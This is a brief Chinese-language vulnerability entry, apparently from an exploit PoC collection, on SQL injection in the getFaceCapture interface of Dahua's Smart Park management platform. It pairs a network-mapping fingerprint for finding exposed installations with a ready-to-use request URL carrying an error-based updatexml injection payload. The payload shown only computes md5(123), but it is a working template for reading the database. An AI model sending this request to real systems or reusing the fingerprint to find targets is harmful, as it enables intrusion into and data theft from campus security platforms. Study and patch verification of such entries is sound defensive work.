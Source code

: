 # 大华 智慧园区综合管理平台 getFaceCapture SQL注入漏洞

## 漏洞描述

大华 智慧园区综合管理平台 getFaceCapture 接口存在SQL注入漏洞，攻击者通过漏洞可以执行任意SQL语句，获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>智慧园区综合管理平台 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="dahua-智慧园区综合管理平台"</a-checkbox></br>

## 漏洞复现

![img](../../../.vuepress/public/img/1645602936890-c40b0210-c98e-465a-b54d-4d5ce28cbdf1-20230812163925217.png)



请求POC

```php
/portal/services/carQuery/getFaceCapture/searchJson/%7B%7D/pageJson/%7B%22orderBy%22:%221%20and%201=updatexml(1,concat(0x7e,(select%20md5(123)),0x7e),1)--%22%7D/extend/%7B%7D
```

![img](../../../.vuepress/public/img/1691823619224-89ff3b9c-ee7b-4051-abdf-bdb259873043.png)